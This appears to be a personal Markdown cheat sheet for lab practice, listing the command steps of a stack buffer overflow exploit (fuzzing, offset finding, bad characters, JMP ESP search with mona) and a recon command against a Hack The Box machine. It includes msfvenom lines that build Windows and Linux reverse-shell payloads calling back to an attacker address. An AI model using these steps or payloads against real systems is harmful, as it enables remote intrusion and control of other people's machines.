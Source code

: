 # Buffer Overflow
  
  - Spike
    - `generic_send_tcp 192.168.174.1 31337 ~/Code/buffer-overflow/stats.spk 0 0`
  - Fuzz
    - `~/Code/buffer-overflow/fuzzer.py`
  - Generate unique pattern:
    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bufferlen>`
  - Finding the offset
    - `~/Code/buffer-overflow/offset.py`
    - (1) `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bufferlen> -q <EIP address>`
    - (1) `!mona findmsp`
  - Confirm offset
    - `~/Code/buffer-overflow/overwrite_eip.py`
  - Find badchars
    - `~/Code/buffer-overflow/badchars.py`
  - Find Jump
    - `!mona modules`
    - `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb > JMP ESP`
    - (1) `!mona find -s "\xff\xe4" -m <unprotected module>`
    - (1) `!mona jmp -r ESP -m <unprotected module> / !mona jmp -r esp -cpb "<badchars>"`
  - Exploit buffer overflow
    - (1) `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
    - (1) `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 -f c -b "\x00,\x20"`
    - `~/Code/buffer-overflow/exploit_buffer_overflow.py`

# Recon

  - `python3 ~/Repositories/AutoRecon/autorecon.py 10.10.10.74 --single-target -o /root/Recon/HTB/Chatterbox/`
  
